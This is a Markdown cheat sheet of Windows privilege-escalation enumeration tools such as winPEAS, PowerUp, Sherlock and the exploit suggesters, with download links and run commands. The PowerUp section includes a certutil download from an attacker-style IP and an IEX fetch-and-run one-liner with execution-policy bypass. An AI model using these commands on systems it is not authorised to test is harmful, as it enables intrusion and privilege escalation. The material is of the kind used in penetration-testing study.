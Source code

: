 
# **📁 Automated Tools for Privilege Escalation**

## 🛠 EXE Tools (Run as .exe files)

You upload these `.exe` files to the target system and run them. They show you where the system might be weak.

# accesschk.exe

AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.

The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.

```
https://xor.cat/assets/other/Accesschk.zip
```

**Always do this first**

```
accesschk.exe /accepteula (always do this first!!!!!)
```

**Find all weak file permission per drive.**

```
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Find all weak folder permission per drive**

```
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

### ✅ winPEAS.exe

- **Job:** Checks for many weaknesses: services, passwords, file access, registry, etc.
- **Download:** https://github.com/carlospolop/PEASS-ng/releases
- **Download:**  https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- **Run it:**

```
winPEAS.exe
```
Before running, we need to add a registry key and then reopen the command prompt:

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```
.\winPEASany.exe quiet cmd fast
```

Run specific check categories:

```
.\winPEASany.exe quiet cmd systeminfo
```
### ✅ Seatbelt.exe

- **Job:** Shows security info like saved passwords, browser history, installed apps.
- **Source:** https://github.com/GhostPack/Seatbelt
- ⚠️ You must compile it  before use.

### ✅ SharpUp.exe

- **Job:** Looks for ways to become admin, like bad file or service permissions.
- **Source:** https://github.com/GhostPack/SharpUp
- ⚠️ Needs to be compiled.

### ✅ Watson.exe

- **Job:** Finds known Windows bugs (CVEs) that work on this system.
- **Source:** https://github.com/rasta-mouse/Watson
- ⚠️ Compile before use.

---

## 💻 PowerShell Scripts (.ps1 files)

These are text files you run in PowerShell to look for weak spots.

### ✅ PowerUp.ps1

- **Job:** Checks services, registry, DLLs, paths, etc. for privilege issues.
- **Download (local):** certutil -urlcache -split -f "http://10.17.68.184:8000/PowerUp.ps1" PowerUp.ps1
- **Download:** https://github.com/PowerShellMafia/PowerSploit
- **Download:** https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps
- **Use it:**

```
CMD> powershell -exec bypass

PS> . .\PowerUp.ps1

PS> Invoke-AllChecks

# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
```
or
```
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```



### ✅ Sherlock.ps1

- **Job:** Finds missing Windows updates that attackers can use.
- **Download:** https://github.com/rasta-mouse/Sherlock
- **Use it:**

```
Import-Module .\Sherlock.ps1
Find-AllVulnerabilities
```

### ✅ JAWS-enum.ps1

- **Job:** Checks logs, users, firewall, AV, and more.
- **Download:** https://github.com/411Hall/JAWS
- **Use it:**

```
.\JAWS-enum.ps1
```

---

## 🐍 Python Tools (Run on your system)

These tools read Windows version info and suggest known bugs.

### ✅ windows-exploit-suggester.py

- **Job:** Shows possible Windows bugs based on system info.
- **Download:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- **Steps:**

```
systeminfo > sysinfo.txt          # Get system info from target
./windows-exploit-suggester.py -i sysinfo.txt
```

### ✅ Windows Exploit Suggester - NG (WES-NG)

- **Job:** Updated version of the above tool.
- **Download:** https://github.com/bitsadmin/wesng
- **Steps:**

```
./wes.py --update                 # Update CVE list
systeminfo > sysinfo.txt          # Get system info
./wes.py sysinfo.txt              # Get exploit suggestions
```

### ✅ Metasploit Exploit Suggester

- **Job:** Shows escalation options in Meterpreter session.
- **Module: `post/multi/recon/local_exploit_suggester`**
